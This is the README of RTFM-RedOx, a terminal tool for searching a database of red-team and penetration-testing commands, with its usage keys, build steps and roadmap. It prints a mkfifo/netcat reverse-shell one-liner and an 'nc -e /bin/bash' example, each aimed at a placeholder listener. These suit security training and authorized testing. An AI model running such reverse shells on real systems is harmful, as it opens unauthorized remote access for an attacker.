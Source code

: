 RTFM-RedOx is meant to be an easier to use and updated replacement for [RTFM](https://github.com/leostat/rtfm) (inspired by the book, Red Team Field Manual) as well as something that works similarly to [Rev Shells](https://revshells.com/) or the [HackTools](https://addons.mozilla.org/en-US/firefox/addon/hacktools/) browser plugin.  All without the need to leave your terminal to search through notes or open a browser window, or continually run a python script with a lot of switches you'll never remember.  It's basically like having a terminal history and history search for commands you never type in your terminal but often type when you have a shell on a remote host or when interacting with a vulnerable web app.  The database does also contain many commands you'd also run on your local machine for things like nmap, impacket scripts (adding as I go), crackmapexec, and others.

In addition to its utility this can also be a great learning resource through the one or more reference links to web content or video material associated with each command.  For example, the following reverse shell one liner has been used by many but is probably not all that well understood.
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [LHOST] [LPORT] >/tmp/f
```
0xdf has a [great video](https://www.youtube.com/watch?v=_q_ZCy-hEqg) that breaks down each part of that command and explains it in detail. I will be updating references for commands in the database that include deep dive explanations, preferrably to video content, that provide a better understanding for more complex commands related to Kerberos, ADCS or Windows authentication in general.  The commands in the database from the original RTFM project do have links to websites and many of those are good but some need updating or additional references to more in depth explanations. 

I'm currently using the sqlite database that [RTFM](https://github.com/leostat/rtfm) uses but that hasn't been updated in almost 6 years so I will be gradually adding new commands and pushing the edited db file to the repository.    


## Usage
```
Ctrl+r           Enter quick search mode to dynamically find commands as you type.
Ctrl+c           Copy currently selected command to clipboard.
Ctrl+u           URL-encode and then copy currently selected command to clipboard.
Crtl+h or hist   Display selectable history of already selected commands.
Ctrl+v           Paste from clipboard
info             Display info on the currently selected command.
env              Show user variables that have already been set.
add -c           Add a command to the database e.g. 'add -c nc [LHOST] [LPORT] -e /bin/bash'
update           Update a database column in the selected command
                 e.g. comment, command, author or references
                 Example: update references http://blog.gregscharf.com
Esc              Exit current mode.
help             Display help
Ctrl+q or exit   Exit redOx.
```

![demo](./redox-demo.gif)


## To Use
```bash
#if you don't already have rust installed
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh

git clone https://github.com/gregscharf/RTFM-Redox.git
cd RTFM-Redox
cargo run --release
```

## Known Issues

**Debian distributions**: The linker will fail during the build process unless the following packages are installed.
```bash
sudo apt install libxcb1-dev libxcb-render0-dev libxcb-shape0-dev libxcb-xfixes0-dev
```

**Kali**: Sometimes the backspace/delete key requires Ctrl+Backspace/Delete to delete previous typed characters in the redox CLI. And in some cases Ctrl+h stops working, so I've added a 'hist' command for when that occurs until I figure out some of the intermittent key stroke issues. 

**Arch**: No known issues

**Mac M1**: Screen flicker when using up/down arrows 

**Windows**: Not supported because the Termion crate does not work on windows.  I'll be switching to crossterm at some point.


## To Add
- [x] After adding a new command to the db select it as the current command.
- [ ] Search checks against both command and comment field
- [ ] Continue updating database with newer commands for things like Crackmapexec,ffuf,feroxbuster,Rubeus,Impacket, etc.
- [ ] Update command reference links to better and more up to date content, preferably adding links to video content when possible.
- [ ] Display ids next to references so that if necessary they can be deleted from the db through the redox CLI.  
- [ ] Add config file to store user set variables and other as yet to be determined configurations.
    - This might be the place for related commands that are often used together. Add ability to save the commands in the current history.  Would need a way to quickly delete a command in the current history e.g. highlight the command and then Ctrl+d to remove it. Also need to be able to completely clear the current history.  User would also need to supply a name for the history before it is saved to the config file.  These would be stored as an array of row IDs from TblCommand. Use the 'config' crate to facilitate this.  
- [ ] Ctrl+d while in selectable list deletes the item from the database, or if in history mode, deletes the item from the current history.
- [ ] Add a local references option via the soon to be added config file for links to notes on the local filesystem.
- [ ] Left/right arrow keys to edit already typed or pasted in command.  Really only useful when typing a long command to add to or update the database.
- [ ] Make use of tags already implemented in the database to display selectable list of grouped items. For example, 'reverse shells linux' to display all commands in the database grouped under that tag.  At the moment, tags already in the database are probably a little too general to be useful e.g. 'bash', 'windows'.  Also need a function to display all tags in the database as a selectable list.
- [ ] Implement [RTFM](https://github.com/leostat/rtfm)'s solution for creating/updating the database
- [ ] Tab auto complete for best match while in search mode.
- [ ] Switch from termion to crossterm for Windows support.
- [ ] Use pre-existing 'refs' table to link to markdown notes and display notes in terminal when selected.

## To Fix
- [x] Add buffer to scroll through result output that doesn't fit within terminal windows.
- [x] Handle error when output exceeds terminal window so application doesn't crash on Arch.
    - Needs a much better solution
- [ ] Sometimes backspace/delete key requires Ctrl+Backspace/Delete to delete typed character preceding cursor.
- [ ] Switch from termion to crossterm to add support for Windows consoles.      
- [ ] Switch to rusqlite and dump sqlx to avoid openssl static build nightmare to allow for release builds.

